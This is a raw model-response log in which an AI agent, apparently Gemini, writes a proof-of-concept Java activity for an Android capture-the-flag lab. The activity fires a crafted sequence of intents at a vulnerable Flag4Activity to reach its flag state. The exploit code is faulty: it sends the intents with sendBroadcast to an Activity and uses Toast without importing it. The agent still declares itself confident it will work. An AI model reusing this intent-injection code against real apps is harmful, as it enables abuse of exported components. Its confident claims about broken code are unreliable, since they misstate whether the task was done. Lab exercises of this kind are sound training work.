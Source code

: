 --- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=True, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="**My Strategy for Exploiting the `Flag4Activity` Vulnerability**\n\nOkay, I've successfully crafted the `AndroidManifest_PoC.xml` file. Now, the real challenge begins: I need to devise the Java code for `MaliciousFlag4PoC.java` that will successfully trigger the vulnerable state machine within `Flag4Activity`.  The key is figuring out the *exact* sequence of intents needed to call `success(this)`.\n\nMy initial thought is to review the `stateMachine` logic in `Flag4Activity.java`.  I'm focusing on the state transitions. It starts in the `INIT` state. The logic suggests the following transitions: `INIT -> PREPARE -> BUILD -> GET_FLAG`.  Crucially, once it hits `GET_FLAG`, *any* further intent should trigger the victory condition (`success(this)`) and reset the state machine to `INIT`.\n\nMy hypothesis is that the sequence of intents I need to send should be: `PREPARE_ACTION`, followed by `BUILD_ACTION`, then `GET_FLAG_ACTION`.  After that, any subsequent intent will exploit the vulnerability. It doesn't matter what that final intent is.\n\nTherefore, my plan is simple: I'll create a new `Activity` within `MaliciousFlag4PoC.java`. In its `onCreate` method, I'll programmatically send the crafted intent sequence to `Flag4Activity`. This is a sandbox operation - just creating and executing a file and sending intents - so it should be completely safe. I’ll place this new file at `Android-2/MaliciousFlag4PoC.java`.  I'm confident this will work. Let's get to it.\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'file_path': 'Android-2/MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");\n\n        // Step 1: Send PREPARE_ACTION\n        Intent prepareIntent = new Intent(PREPARE_ACTION);\n        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(prepareIntent); // Using sendBroadcast as it\'s a common way to send intents to exported components\n        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION");\n\n        // Step 2: Send BUILD_ACTION\n        Intent buildIntent = new Intent(BUILD_ACTION);\n        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(buildIntent);\n        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION");\n\n        // Step 3: Send GET_FLAG_ACTION\n        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(getFlagIntent);\n        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION");\n\n        // Step 4: Send a final intent to trigger success(this) from GET_FLAG state\n        // Any intent will work here, let\'s re-send GET_FLAG_ACTION or an empty intent\n        Intent triggerSuccessIntent = new Intent(GET_FLAG_ACTION); // Or new Intent();\n        triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(triggerSuccessIntent);\n        Log.d("MaliciousFlag4PoC", "Sent final trigger intent.");\n\n        Toast.makeText(this, "Exploit intents sent. Check logs for flag.", Toast.LENGTH_LONG).show();\n        finish(); // Close the malicious activity\n    }\n}'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=None, grounding_metadata=None, index=0, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='models/gemini-2.5-flash-preview-05-20', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=12913)], cached_content_token_count=12913, candidates_token_count=696, candidates_tokens_details=None, prompt_token_count=16772, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=16772)], thoughts_token_count=350, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=17818, traffic_type=None), automatic_function_calling_history=[], parsed=None)
